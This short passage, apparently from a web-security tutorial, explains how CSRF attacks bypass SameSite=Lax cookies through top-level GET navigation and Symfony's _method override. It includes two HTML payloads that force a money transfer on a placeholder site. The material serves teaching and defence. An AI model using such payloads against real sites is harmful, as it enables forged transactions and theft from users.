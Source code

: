 If SameSite is set to `Lax` restrictions, either explicitly or by default browser behavior, an attacker can still perform a CSRF attack by eliciting a `GET` request from the victim's browser.

As long as the request involves a top-level navigation (TLD), the browser will still include the victim's session cookie. The following is one of the simplest payload for such an attack:
```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the `_method` parameter in forms, which takes precedence over the normal method for routing purposes, for example:
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```